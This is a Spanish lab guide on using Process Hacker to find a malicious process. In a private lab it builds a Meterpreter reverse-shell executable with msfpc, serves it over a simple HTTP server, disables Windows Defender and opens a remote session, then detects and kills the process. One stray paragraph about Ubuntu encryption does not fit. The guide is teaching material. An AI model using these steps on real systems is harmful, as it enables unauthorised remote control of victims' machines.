Laboratorio 1. Process Hacker
1. Introducción
Process Hacker es un programa de código abierto con el que se puede controlar los procesos que se ejecutan en un equipo de una manera más profunda que con el propio administrador de tareas de Windows.
Esta herramienta permite monitorizar más información acerca de los procesos que se están ejecutando, así como de las librerías DLL que utiliza, llegando incluso a poder enviar los procesos a servicios de antivirus online para su análisis inmediato.
2. Recursos necesarios
- Servidor Windows Server 2019 Datacenter - Subdominio de vuestro proyecto.
- Equipo con kali Linux configurado en red con el Subdominio de vuestro proyecto.
3. Uso de Process Hacker
Se puede realizar el cifrado de particiones durante la instalación del sistema operativo. En las siguientes pestañas, se describe el proceso de instalación de Ubuntu Server configurando el cifrado de la partición del sistema.
1. Instalación
Para descargar la aplicación hay que acceder a la página web oficial: https://processhacker.sourceforge.io/ A continuación, se realiza la instalación mediante el asistente. En la segunda pantalla, se puede decidir si se instala la aplicación para todos los usuarios o no, si se inicia el proceso en el inicio del sistema o no, etcétera.

Una vez instalado, aparecerá un icono nuevo en la esquina inferior derecha del escritorio de nuestro equipo: 
2. Menú principal
Una vez se accede a la aplicación, la ventana principal es la siguiente:

3. Proceso I
Propiedades de un proceso. Para observar con detalle las propiedades de un proceso, hay que hacer dobleclick sobre el mismo. En la pestaña General, se tiene información relevante al proceso, su nombre, dónde se ejecuta, sus permisos, etcétera.

4. Proceso II
Propiedades de un proceso (II). En la pestaña Memory, se tiene información de las direcciones de memoria donde está ejecutándose el proceso.

5. Proceso III
Propiedades de un proceso (III). En la pestaña Modules, se tiene información de las librerías a las que hace llamada el proceso.

4. Detectar un proceso malicioso
Escenario para este ejemplo:
- Servidor Windows Server 2019 Datacenter promocionado a controlador del dominio smr.local con ip 192.168.191.54 (adaptador red en modo puente).
- Equipo con kali Linux configurado en la red del controlador del dominio smr.local con ip 192.168.191.55 (adaptador red en modo puente).

Para disponer de un proceso malicioso en el equipo objetivo y poder analizarlo, se va a utilizar la herramienta MSFvenom Payload Creator (msfpc) para crear un proceso malicioso (payload).
MSFvenom Payload Creator (MSFPC) es una herramienta para la creación de cargas útiles (payloads) y se puede utilizar para generar diferentes cargas en sistemas Windows, Android o Linux en muy poco tiempo. Es una manera fácil de generar cargas útiles de Meterpreter usando MSFvenom (parte del marco Metasploit).
Investigadores en hacking ético del Instituto Internacional de Seguridad Cibernética (IICS) han demostrado muchas otras cargas útiles que son completamente indetectables. Este MSFPC es una herramienta preinstalada (nativa) en Kali Linux, por eso utilizaremos un equipo Kali para generar el proceso malicioso.
En los siguientes pasos se describe el proceso.
Paso 1. En primer lugar, crearemos una sesión de meterpreter sencilla con msfpc (generar carga útil para la plataforma Windows). Para ello, accedemos al equipo kali linux y ejecutamos el siguiente comando, donde:
- 192.168.191.55 es la ip del equipo kali linux.
- windows es la plataforma para la que se creará la sesión de meterpreter.
Como no hemos especificado puerto, el puerto por defecto que usará para establecer la conexión con el equipo objetivo será el 443.
$ msfpc Windows 192.168.191.55

De esta forma, vamos a generar una carga útil para obtener la máquina de la víctima (equipo Windows Server 2019) de la sesión de meterpreter que opera en Windows, es decir, creamos una puerta trasera maliciosa en formato .exe para arquitectura de 32 bits (luego comenzará a generar la carga útil). Si se observa la imagen superior, se ha creado el fichero malicioso windows-meterpreter-staged-reverse-tcp-443.exe, que posteriormente haremos llegar al equipo objetivo.
Paso 2. Iniciar el controlador.
A continuación, hay que ejecutar el siguiente comando para iniciar el controlador múltiple automáticamente.
msfconsole -q -r '/home/kali/windows-meterpreter-staged-reverse-tcp-443-exe.rc

Paso 3. Crear un servidor web simple para transferir el fichero malicioso al equipo objetivo (víctima).
Una vez se ha iniciado el controlador, el siguiente paso es crear un servidor web simple para poder transferir al equipo objetivo (víctima) el fichero malicioso. Para ello, ejecutamos el siguiente comando:
$ python2 -m SimpleHTTPServer 8080

Paso 4. Descargar el fichero malicioso desde el equipo objetivo Windows.
Supuestamente, cuando la víctima navegue por la siguiente URL http://192.168.191.55:8080, se le solicitará que descargue y ejecute el archivo .exe que proporcionará la sesión de meterpreter al atacante.
Para similar el anterior supuesto, hay que acceder al servidor web que se ha puesto en marcha en kali linux, para ello, abrimos un navegador y accedemos a la url http://192.168.191.55:8080 para descargar el fichero malicioso windows-meterpreter-staged-reverse-tcp-443-exe.

Para descargar/ejecutar el fichero, pinchamos sobre el enlace 'windows-meterpreter-staged-reverse-tcp-443-exe' y seleccionamos 'Guardar destino como'. Aparecerá una nueva ventana (ver figura inferior) donde pulsaremos el botón 'Guardar'.

Si se tiene activado Windows Defender (es lo habitual), nos aparecerá el siguiente mensaje, donde se ha eliminado al detectar que era un fichero malicioso.

Para proseguir, hay que desactivar Windows Defender para poder descargar el fichero (ver figura inferior).

Una vez se ha desactivado Windows Defender, volvemos a descargar el fichero y nos aparecerá el siguiente mensaje, donde podremos ejecutar el fichero descargado (botón Acciones), ver la descarga del mismo o eliminar el fichero descargado.

Paso 5. Ejecutar el fichero malicioso y abrir sesión
Si la víctima ejecuta el archivo exe, podremos acceder a la máquina comprometida, es decir, en la consola de kali linux podremos observar que se ha abierto una sesión Meterpreter (con esto sabremos que la víctima ha ejecutado el fichero) y estaremos dentro de una sesión del equipo objetivo.

A continuación, en la consola msf6 escribimos sessions -i 1 (ver figura inferior).

En estos momentos, estamos dentro de una sesión del equipo windows donde podremos: recorrer el árbol de directorios, crear ficheros y directorios, borrar, instalar aplicaciones, etc..


Paso 6. Detectar la conexión con Process Hacker
Ahora desde el equipo Windows, ejecutamos Process Hacker para detectar la conexión. En la pestaña de Network aparecen las conexiones. Si comprobamos las mismas, encontramos una que ocurre desde la propia red local (192.168.191.55). Hacemos click con el botón derecho del ratón y nos aparece una venta emergente con posibles acciones donde seleccionaremos 'Go to process'. Otra forma de ir al proceso es haciendo doble click.

Una vez en la ventana de procesos (ver figura inferior), seleccionamos el proceso malicioso y hacemos click con el botón derecho del ratón. Nos aparece una venta emergente donde si pulsamos 'Send To' virusscan.jotti.org, enviaremos el proceso automáticamente a la web para virusscan para que lo analice.

Una vez se envía el proceso a la web, comienza con el análisis de manera automática.

Cuando finaliza, nos ofrece como salida indicando la infección en el archivo, en este caso, ya sabemos que es un Meterpreter ya que lo hemos creado nosotros.

Si se desea obtener más información del proceso malicioso, podemos acceder a las propiedades del mismo 'Properties' donde se tienen varias pestañas, ejemplo: pestaña General.

Una vez estudiado el proceso malicioso, eliminamos el hilo del proceso del sistema con la opción 'Termitate' o 'Termitate tree' (árbol de procesos).

Una vez se ha eliminado el proceso, podemos comprobar que la sesión en kali ha terminado también.
